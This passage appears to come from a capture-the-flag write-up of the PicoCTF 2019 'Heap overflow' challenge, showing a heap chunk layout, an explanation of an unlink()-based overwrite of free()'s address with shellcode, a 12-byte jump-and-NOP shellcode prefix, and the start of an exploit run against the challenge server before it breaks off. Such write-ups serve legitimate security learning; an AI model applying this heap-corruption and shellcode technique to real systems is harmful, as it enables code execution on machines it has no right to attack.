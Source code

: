                     |                            |   |
                    |                            | --+
    ----------------+------------------------+---+
                    | 72                     | 1 |
    lastname --->   +------------------------+---+ --+
                    | User Data                  |   |
                    |                            |   |
                    |                            |   |
                    |                            |   | 66 bytes
                    |                            |   |
                    |                            |   |
                    |                            |   |
                    |                            | --+
    ----------------+----------------------------+
    ```

7. The address -12 is included in the malicious argument so that the `unlink()` method overwrites the address of the `free()` library call with the address of the shellcode. The shellcode jumps over the first 12 bytes because some of this memory is overwritten by `unlink()` when making the assignment BK->fd = FD.
8. The "Adapted shellcode" section of the [hint](https://www.win.tue.nl/~aeb/linux/hh/hh-11.html) was influential in creating the shellcode. The simple way out is to prefix our favourite shellcode with a 12-byte header:

    ```
    eb 0a    jmp 1f
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    90       nop
    1f:
    ```

9. Run the [script.py](script.py) to run the exploit and get the flag `python script.py USER=<username> PASSWORD=<password>`:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/Heap overflow/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments
    [+] Connecting to 2019shell1.picoctf.com on port 22: Done
    [*] <username>@2019shell1.picoctf.com:
        Distro    Ubuntu 18.04
        OS:       linux
        Arch:     amd64
        Version:  4.15.0
        ASLR:     Enabled
    [+] Opening new channel: 'pwd': Done